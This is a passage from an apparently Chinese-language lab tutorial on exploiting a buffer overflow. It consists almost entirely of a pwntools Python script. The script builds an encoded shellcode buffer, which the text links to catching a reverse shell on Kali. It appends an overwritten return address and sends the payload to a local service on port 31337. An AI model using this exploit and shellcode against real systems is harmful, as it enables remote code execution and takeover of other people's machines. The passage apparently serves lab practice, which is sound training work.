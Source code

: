 > kali 本地测试中能监听到反弹

#### 3.8 编写 python 脚本

要安装 python 中的 pwn 包。[参考](https://blog.csdn.net/qq_52553510/article/details/122475088)

```bash
//shell3322
from pwn import *

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31"
buf += b"\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26"
buf += b"\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1"
buf += b"\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d"
buf += b"\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69"
buf += b"\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45"
buf += b"\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66"
buf += b"\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90"

ret = p64(0x400cfb)
#ret = "\xfb\x0c\x40\x00"
print (ret)
payload = buf + ret

r = remote("127.0.0.1", 31337)
r.recv()
r.send(payload)
print("ok")
```
